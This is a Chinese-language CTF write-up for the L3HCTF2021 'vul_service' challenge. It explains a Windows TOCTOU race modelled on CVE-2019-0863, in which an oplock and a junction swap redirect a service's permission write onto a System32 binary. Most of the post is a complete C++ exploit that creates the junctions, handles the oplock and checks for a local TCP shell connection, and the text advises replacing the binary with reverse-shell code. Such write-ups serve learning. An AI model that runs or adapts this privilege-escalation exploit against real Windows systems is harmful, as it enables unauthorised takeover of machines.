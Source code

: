 # L3HCTF2021


# L3HCTF2021 PWN
躺了个第一，被带飞了。
<!-- more -->
看了一下只有这题值得记录👇

## vul_service
### 分析
题目来自CVE-2019-0863，注册了一个系统服务，功能是会不断遍历tmp目录下文件，读取其权限并写回去，注意到是根据文件名来判断并且没有加锁，考虑使用TOCTOU来攻击。

参考[这篇文章](https://lucabarile.github.io/Blog/toctou/index.html)了解TOCTOU，比较好理解的一种条件竞争，使用SetOplock在读取时锁住，并修改符号链接即可非预期修改别的文件的权限。通过这里主要学到了很多windows的知识，如权限控制的DACL，计划任务等。

### 思路
感谢FMYY和2st的帮助。

首先在tmp同级创建一个target目录，其中创建同名文件vul_service.exe，这里建议从system32中直接复制出来并删除继承关系，这样就有了Attacker的权限。

主要思路就是在tmp创建一个符号链接指target，用SetOplock锁住该同名文件。当计划任务访问时，删除符号链接并创建一个指向system32的，就可以把权限写给System32中的漏洞程序，然后替换为反弹shell的恶意代码即可。

### exp
```cpp
#include "stdafx.h"
#include<tchar.h>
#include<strsafe.h>
#include "TcpClient.h"
static FileOpLock* oplock = nullptr;
static bstr_t target_2;
#define BUFSIZE 4096
void HandleOplock()
{

	DebugPrintf("OpLock Triggered");
	
	STARTUPINFO si;
	PROCESS_INFORMATION pi;

	ZeroMemory(&si, sizeof(STARTUPINFO));
	ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

	si.cb = sizeof(STARTUPINFO);

	RemoveDirectoryW(L"C:\\Users\\Public\\tmp\\1");

	WCHAR CMDLine[BUFSIZE];
	ZeroMemory(CMDLine, BUFSIZE);
	StringCchCat(CMDLine, BUFSIZE, L"cmd /c mklink /J C:\\Users\\Public\\tmp\\1  C:\\Windows\\System32");

	CreateProcess(nullptr, CMDLine, nullptr, nullptr, FALSE, 0, nullptr, nullptr, &si, &pi);

	CloseHandle(pi.hThread);
	CloseHandle(pi.hProcess);

	Sleep(2000);
	
}

int _tmain(int argc, _TCHAR* argv[])
{
	wprintf_s(L"[+] hrnPA !\n");

	STARTUPINFO si;
	PROCESS_INFORMATION pi;

	ZeroMemory(&si, sizeof(STARTUPINFO));
	ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

	si.cb = sizeof(STARTUPINFO);

	RemoveDirectoryW(L"C:\\Users\\Public\\tmp\\1");

	WCHAR CMDLine[BUFSIZE];
	ZeroMemory(CMDLine, BUFSIZE);
	StringCchCat(CMDLine, BUFSIZE, L"cmd /c mklink /J C:\\Users\\Public\\tmp\\1  C:\\Users\\Public\\target");

	CreateProcess(nullptr, CMDLine, nullptr, nullptr, FALSE, 0, nullptr, nullptr, &si, &pi);

	CloseHandle(pi.hThread);
	CloseHandle(pi.hProcess);
	//Sleep(2000);
	int sign = 0;
	if (argc < 2)
	{
		printf("Usage: SetOpLock target [rwdx]\n");
		printf("Share Mode:\n");
		printf("r - FILE_SHARE_READ\n");
		printf("w - FILE_SHARE_WRITE\n");
		printf("d - FILE_SHARE_DELETE\n");
		printf("x - Exclusive lock\n");
		sign = 1;
	}
	else
	{
		LPCWSTR target = argv[1];
		LPCWSTR share_mode = argc > 2 ? argv[2] : L"";

		oplock = FileOpLock::CreateLock(target, share_mode, HandleOplock);
		if (oplock != nullptr)
		{
			oplock->WaitForLock(INFINITE);
			delete oplock;

		}
		else
		{
			printf("Error creating oplock\n");
			return 1;
		}
	}
	if (sign) {
		TcpClient tcpClient;
		int iRes = 0;

		wprintf_s(L"[+] Trigger launched.\n");
		wprintf_s(L"[*] TCP connecting...\n");


		wprintf_s(L"[*] Waiting for the VulService to be Execute...\n");


		Sleep(50000);

		iRes = tcpClient.connectTCP("127.0.0.1", "1337");

		if (iRes != 0)
		{
			wprintf_s(L"[*] Retrying ...\n");

			iRes = tcpClient.connectTCP("127.0.0.1", "1337");
		}

		if (iRes != 0)
		{
			wprintf_s(L"[*] Retrying ...\n");


			iRes = tcpClient.connectTCP("127.0.0.1", "1337");
		}

		if (iRes != 0)
		{
			wprintf_s(L"[-] Exploit failed.");
		}
		else
		{
			wprintf_s(L"[+] Exploit successfull.");
		}
	}
	return 0;
}

```

效果如下：
![win](./L3HCTF2021/1.png)
此时替换为反弹shell的恶意代码即可。
